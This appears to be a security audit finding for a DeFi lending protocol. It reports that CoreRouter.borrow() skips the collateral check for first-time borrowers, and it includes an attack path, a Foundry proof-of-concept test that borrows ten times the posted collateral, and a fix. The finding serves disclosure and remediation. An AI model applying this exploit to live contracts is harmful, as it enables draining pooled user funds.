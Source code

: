 Melted Cloud Giraffe

High

# First-time Borrowers Can Borrow Without Collateral Validation


*First-time borrowers will bypass collateral checks and steal funds from the protocol*

## Summary

*The incorrect collateral validation in CoreRouter.borrow() will cause a complete loss of funds for the protocol as first-time borrowers will bypass collateral checks and borrow more than their collateral allows.*

## Root Cause

In `CoreRouter.sol:156-160` there is a critical flaw in the collateral validation logic:

```solidity
uint256 borrowAmount = currentBorrow.borrowIndex != 0
    ? ((borrowed * LTokenInterface(_lToken).borrowIndex()) / currentBorrow.borrowIndex)
    : 0; // For first-time borrowers, this will be 0!

require(collateral >= borrowAmount, "Insufficient collateral");
```

For first-time borrowers, `currentBorrow.borrowIndex` is 0, making `borrowAmount` also 0, which causes the collateral check to always pass regardless of the actual borrow amount.

## Internal Pre-conditions

1. User needs to be a first-time borrower for the specific lToken (never borrowed this asset before)
2. Protocol must have enough liquidity in the specific lToken
3. CoreRouter contract must be properly set up with at least one supported lToken

## External Pre-conditions

No specific external pre-conditions required.

## Attack Path

1. Attacker deposits minimal collateral (e.g., 1 USDC) into the protocol using `CoreRouter.supply()`
2. Attacker calls `CoreRouter.borrow()` with a large amount (e.g., 1,000,000 USDC) for the first time
3. The code calculates `borrowAmount = 0` since this is the first borrow
4. The check `require(collateral >= borrowAmount)` passes because 1 > 0
5. The borrowing proceeds despite insufficient collateral
6. Attacker receives the borrowed funds and can disappear, never repaying the loan

## Impact

*The protocol suffers a complete loss of the borrowed funds. The attacker gains the full amount borrowed without adequate collateral backing.*

Since all user positions are pooled at the CoreRouter level (the router is the actual holder of all lTokens), this vulnerability puts all user funds at risk. A single attacker can drain a significant portion of the protocol's liquidity by bypassing collateral checks on their first borrow.

## PoC
add this test to test/TestBorrowing.t.sol

```solidity
function test_first_time_borrower_bypass_collateral_check() public {
        vm.startPrank(deployer);
        
        // 1. Supply some collateral to ensure we're in a market
        uint256 collateralAmount = 100e18; // 100 tokens with 18 decimals
        address token = supportedTokens[0];
        address lToken = lendStorage.underlyingTolToken(token);
        
        // Enable token as collateral in Lendtroller
        address[] memory markets = new address[](1);
        markets[0] = lToken;
        lendtroller.enterMarkets(markets);
        
        // Mint tokens and supply as collateral
        ERC20Mock(token).mint(deployer, collateralAmount);
        IERC20(token).approve(address(coreRouter), collateralAmount);
        coreRouter.supply(collateralAmount, token);
        
        // Get initial token balance to verify the borrow
        uint256 initialBalance = IERC20(token).balanceOf(deployer);
        
        // 2. Try to borrow way more than collateral allows
        // In a normal system, this would be limited by the collateral factor
        // But due to the bug, first-time borrowers bypass the check
        uint256 largeAmount = 1000e18; // 1000 tokens - much more than collateral allows
        
        // Ensure protocol has enough liquidity
        ERC20Mock(token).mint(address(lToken), largeAmount * 2);
        
        // The vulnerability is here - CoreRouter calculates borrowAmount as 0 for first-time borrowers
        // and then incorrectly checks: require(collateral >= borrowAmount)
        // which passes because collateral >= 0 is always true
        coreRouter.borrow(largeAmount, token);
        
        // 3. Verify that the borrow actually succeeded
        uint256 newBalance = IERC20(token).balanceOf(deployer);
        uint256 borrowedAmount = newBalance - initialBalance;
        
        // Assert the vulnerability: we were able to borrow much more than our collateral allows
        assertEq(
            borrowedAmount,
            largeAmount,
            "First-time borrower should be able to borrow more than their collateral allows"
        );
        
        // Get the borrow state to verify the exploit
        LendStorage.BorrowMarketState memory borrowState = lendStorage.getBorrowBalance(deployer, lToken);
        assertEq(
            borrowState.amount,
            largeAmount,
            "Large borrow amount should be recorded correctly"
        );
        
        // The collateral factor should normally limit borrows to a percentage of collateral
        // (typically around 70-80%), so borrowing 10x collateral should be impossible
        uint256 collateralRatio = (collateralAmount * 100) / largeAmount;
        assertTrue(
            collateralRatio < 20, // Less than 20% collateralization
            "Collateral ratio should be extremely low, proving the bypass"
        );
        
        vm.stopPrank();
    }
```



## Mitigation

The CoreRouter should compare against the total borrowed value (including the new borrow) rather than relying on the current borrow state:

```solidity
// Fix: Use the borrowed amount directly from getHypotheticalAccountLiquidityCollateral
(uint256 borrowed, uint256 collateral) =
    lendStorage.getHypotheticalAccountLiquidityCollateral(msg.sender, LToken(payable(_lToken)), 0, _amount);

// This is the correct check that should be used
require(collateral >= borrowed, "Insufficient collateral");
```

The `getHypotheticalAccountLiquidityCollateral` function already correctly calculates the total borrow amount including the new borrow, so we should use its `borrowed` return value directly instead of recalculating it based on the current borrow index.
